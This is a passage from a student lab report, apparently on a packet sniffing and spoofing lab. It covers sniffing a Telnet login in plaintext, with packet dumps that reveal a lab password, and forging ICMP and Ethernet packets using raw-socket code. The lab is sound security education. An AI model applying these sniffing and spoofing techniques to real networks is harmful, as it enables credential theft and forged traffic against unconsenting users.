
\includegraphics[width=0.9\linewidth]{portrange}
\caption{TCP \& Destination Port 10 -- 100}
\label{fig:portrange}
\end{figure}
\subsubsection{Sniffing Passwords}
\noindent This task will involve using \texttt{sniffex} to capture passwords sent by a user using Telnet. It is known that Telnet transmits authentication details in plaintext and as such is vulnerable to password sniffing. We use three systems in this task, where
\begin{itemize}
\item System 1 is the attacker and has IP address 192.168.43.156. (The NAT adapter is used with the ``bridged'' adapter disabled)
\item System 2 is the user and has IP address 192.168.43.167.
\item System 3 is the server and has IP address 192.168.43.157.
\end{itemize}
For the sniffing program, promiscuous mode is turned back on and the filter is set to ``TCP port 23'' as Telnet uses that port for communication. For reference, the username has been left as the default ``seed'' and the password as ``password''. The number of packets captured have also been increased to \textbf{60} as the default setting is insufficient to capture all the details.\\\\ On packet 15 it is visible that the payload reflects the start of the login prompt, just before the user enters his credentials. Figure \ref{fig:login} shows the data that was transmitted in the packet.
\begin{figure}[H]
\centering

\includegraphics[width=0.7\linewidth]{login}
\caption{Telnet Login Prompt}
\label{fig:login}
\end{figure}
\noindent In the following packets, each key that the user enters is captured in a separate packet. As the amount of information printed is excessive, it has been attached to \hyperref[ch:AppA]{Appendix A} for reference. Packets 1 -- 14 have been omitted as the payload does not contain data that is relevant to this task.\\\\
Packets 17 -- 27 contain the username that is used to login to the system. It is interesting to note that the payload is duplicated in the subsequent packet to inform Terminal to display the entered strokes onto the user's screen. Packet 29 has the payload \texttt{0d 00}, which is the \textit{return/enter} key.\\\\Packets 30 -- 46 contain the password for the Telnet session and the data is not duplicated in subsequent packets as it does not require the password to be displayed on the user's Terminal session. Packet 48 similarly ends with \texttt{0d 00} to denote the end of the password input. The authentication ends with the payload \texttt{0d 0a} which indicates a \textit{line break}.\\\\We know that the authentication is genuine when Telnet displays the ``Welcome Page'' on the user's Terminal screen, which is represented by packets 52 -- 56. Packet 57 indicates that Terminal is waiting for the next inputs from the user.
\subsection{Spoofing}
For this section, we use raw socket programming to allow full control over the packet construction and to insert our arbitrary data into the packet. Using raw sockets require the following four steps:
\begin{enumerate}
\itemsep0em
\item Creating the raw socket
\item Setting socket options
\item Constructing the packets
\item Sending the packets through the raw sockets
\end{enumerate}
Online code\footnote{\href{https://github.com/marktube/Packet-Sniffing-and-spoofing}{Marktube (Github): https://github.com/marktube/Packet-Sniffing-and-spoofing}} with some modifications will be used to perform the spoofing.
\subsubsection{Writing A Spoofing Program}
The code used for this task has been attached to \hyperref[ch:ICMPSpoof]{Appendix B} and has been slightly modified. The program is compiled using the same syntax as the \texttt{sniffex} program.
\begin{verbatim}
$ gcc -Wall -o spoofing spoofing.c -lpcap
\end{verbatim}
Before executing the compiled program, Wireshark is opened to monitor the packets in promiscuous mode. The filter expression is set to ``icmp'' to capture only ICMP packets. The captured packet should display the relevant information that was defined in the C code, such as the spoofed IP addresses, ICMP id and sequence numbers.

\begin{figure}[H]
\centering

\includegraphics[width=0.9\linewidth]{spoofprog}
\caption{Spoofing Packet Sent}
\label{fig:spoofprog}
\end{figure}

\noindent From Figure \ref{fig:spoofprog}, we see that the source IP addresses match those that have been defined in the code. Similarly, the id for our ICMP header is reflected. For the sequence number, 4600 is the decimal number for 0x1234 in Big-Endian and 0x3412 in Little-Endian encoding, which corresponds to our defined value. Drilling down to the details in the ICMP packet, we can see that our packet is valid, especially the checksum.

\begin{figure}[H]
\centering

\includegraphics[width=0.8\linewidth]{icmpanal}
\caption{ICMP Packet Analysis}
\label{fig:icmpanal}
\end{figure}

\subsubsection{Spoof an ICMP Echo Request}
This task will involve sending an ICMP echo request packet to a valid host on the Internet, with the aim of obtaining a reply from the endpoint. Minor changes need to be made to the code, since we would like the ICMP reply to be sent back to us. Hence, the source address will be changed to the VM IP address (192.168.43.156). For the destination IP address, we will be using Google's server IP address as it is convenient (8.8.8.8). The code is compiled again and run.

\begin{figure}[H]
\centering

\includegraphics[width=0.8\linewidth]{icmpreply}
\caption{ICMP Reply}
\label{fig:icmpreply}
\end{figure}

\noindent If the packet is properly formed, a valid reply is expected from the server. Here, the details of the reply packet are similar to our ICMP packet that was sent out. However, it can be noted that the \textit{Type} field in the packet is set to 0 which signifies echo reply. In addition, Wireshark also indicates that the ICMP reply is in response to the ICMP echo packet that was previously sent out and therefore we can conclude that the spoofing was successful.

\begin{figure}[H]
\centering

\includegraphics[width=0.8\linewidth]{icmpreplydetail}
\caption{ICMP Reply Packet Detail}
\label{fig:icmpreplydetail}
\end{figure}
\noindent
\textbf{Problem 4:}\\
Can the IP packet length field be set to an arbitrary value, regardless of how big the actual packet is?\\\\
\textbf{Answer 4:}\\
The length field can be set to an arbitrary value as only the length of the raw socket will be used when sending the data out.\\\\
\textbf{Problem 5:}\\
Does the checksum for the IP header need to be calculated when using raw socket programming.\\\\
\textbf{Answer 5:}\\
Yes, this is because the headers are being manually modified by the user and not by the system and hence the fields must be calulated manually.\\\\
\textbf{Problem 6:}\\
Why is root privilege required to run programs that use raw sockets? Where does the program fail if executed without the root privilege?\\\\
\textbf{Answer 6:}\\
Root privilege is required to use raw sockets because these processes have the ability to create spoofing packets and tamper with the system's ability to automatically fill up the various fields with proper data. If no root privilege is granted to the program, then an exception will be thrown to the user.
\begin{verbatim}
/* Create raw socket:*/
  if ((sd = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0) {
    perror("raw socket");
    exit(1);
  }
\end{verbatim}
The following is the exception string that will be thrown to the user when executing without root privileges.\\\\
\textit{raw socket: Operation not permitted}

\subsubsection{Spoof Ethernet Frame}
This part will involve spoofing of the frame at the physical layer. The code has been attached to \hyperref[ch:EthSpoof]{Appendix B} for reference with minor edits. This layer is where the MAC address of the source and destination are implemented. To indicate to the system that the Ethernet header has been constructed, the following line is included.
\begin{verbatim}
sd = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_IP));
\end{verbatim}
If the spoofing is successful, the packet will be sent out and it will be reflected on Wireshark. On Wireshark, the packet can be found by using the filter expression \texttt{fc} (short for Fibre Channel).

\begin{figure}[H]
\centering

\includegraphics[width=0.9\linewidth]{EtherFrameSpoof}
\caption{Ethernet Frame Spoofing}
\label{fig:etherframespoof}
\end{figure}

\noindent Looking at the packet that was just sent out, the source and destination MAC addresses match those that were programmed into the code. This indicates that the spoofing was successful.

\subsection{Sniffing \& Spoofing}
This task will combine both sniffing and spoofing techniques that were previously used. To perform this task, 2 Virtual Machines are placed on the same LAN network with the following configuration.
\begin{itemize}
\item The attacker has IP address 192.168.43.156
\item The user has IP address 192.168.43.154
\end{itemize}
To simulate the sniffing and spoofing attack, an ICMP request will be sent via the \texttt{ping} command will be used on a non-existing IP address (192.168.42.1) not on the local sub-network. (*IP Addresses 192.168.0.0 -- 192.168.255.255 are designated as private networks and cannot be found anywhere over the Internet). On the attacker's system, the sniffing program is expected to sniff for the ICMP packets (in promiscuous mode) and respond with a ICMP echo reply packet.\\\\The sniffing and spoofing code are effectively merged together and have been provided in \hyperref[ch:SniffSpoof]{Appendix B} with further modifications. To respond only to ICMP packets, there is a need to ensure that the receive packet is ICMP. To do so, we can use an existing implementation on line 261 to check if the protocol is ICMP. If it is, we can execute our ICMP spoofer to create the packet to send out and hence the function call to the spoofer has been added at line 263. \\\\The source and destination IP address of the ICMP echo packet has been passed as we need to know where the reply should be directed to. It is also important to note that the source and destination IP address has to be switched in the reply packet, which has been reflected in lines 343 and 344 (Passing the \texttt{inet\_ntoa} ASCII string into the function will create a problem where the source and the destination IP address are the same. To solve this problem, the entire structure is passed instead).\\\\For the sniffer, we need to ensure that we only analyse packets that are based on the ICMP protocol and from the user. As such, the filter is changed to \texttt{icmp and src host 192.168.43.154}. The destination host is not specified as the reply should work for any host.\\\\If it is successful, then the program will automatically respond with a ICMP echo reply to our user's IP address.
\begin{figure}[H]
\centering

\includegraphics[width=0.9\linewidth]{sniffspoof}
\caption{Successful ICMP Reply}
\label{fig:sniffspoof}
\end{figure}
\noindent From Figure \ref{fig:sniffspoof}, the Wireshark capture log shows that the program has successfully replied the packets that were sent from the user. Furthermore, the sequence and id of the ICMP response matches the echo packets that were sent out.

\newgeometry{left=2cm,top=1cm, bottom=2cm}
\section{Appendix A}
\label{ch:AppA}
\begin{verbatim}
Packet number 15:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570
   Payload (34 bytes):
00000   55 62 75 6e 74 75 20 31  32 2e 30 34 2e 35 20 4c    Ubuntu 12.04.5 L
00016   54 53 0d 0a 75 62 75 6e  74 75 20 6c 6f 67 69 6e    TS..ubuntu login
00032   3a 20                                               : 

Packet number 16:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23

Packet number 17:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   73                                                  s

Packet number 18:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570
   Payload (1 bytes):
00000   73                                                  s

Packet number 19:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23

Packet number 20:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   65                                                  e

Packet number 21:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570
   Payload (1 bytes):
00000   65                                                  e

Packet number 22:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23

Packet number 23:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   65                                                  e

Packet number 24:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570
   Payload (1 bytes):
00000   65                                                  e

Packet number 25:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23

Packet number 26:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   64                                                  d

Packet number 27:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570
   Payload (1 bytes):
00000   64                                                  d

Packet number 28:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23

Packet number 29:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (2 bytes):
00000   0d 00                                               ..

Packet number 30:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570
   Payload (12 bytes):
00000   0d 0a 50 61 73 73 77 6f  72 64 3a 20                ..Password: 

Packet number 31:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23

Packet number 32:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   70                                                  p

Packet number 33:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 34:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   61                                                  a

Packet number 35:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 36:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   73                                                  s

Packet number 37:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 38:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   73                                                  s

Packet number 39:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 40:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   77                                                  w

Packet number 41:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 42:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   6f                                                  o

Packet number 43:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 44:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   72                                                  r

Packet number 45:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 46:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (1 bytes):
00000   64                                                  d

Packet number 47:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 48:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37570
   Dst port: 23
   Payload (2 bytes):
00000   0d 00                                               ..

Packet number 49:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570

Packet number 50:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37570
   Payload (2 bytes):
00000   0d 0a                                               ..

Packet number 51:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37647
   Dst port: 23

Packet number 52:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37647
   Payload (63 bytes):
00000   57 65 6c 63 6f 6d 65 20  74 6f 20 55 62 75 6e 74    Welcome to Ubunt
00016   75 20 31 32 2e 30 34 2e  35 20 4c 54 53 20 28 47    u 12.04.5 LTS (G
00032   4e 55 2f 4c 69 6e 75 78  20 33 2e 35 2e 30 2d 33    NU/Linux 3.5.0-3
00048   37 2d 67 65 6e 65 72 69  63 20 69 36 38 36 29       7-generic i686)

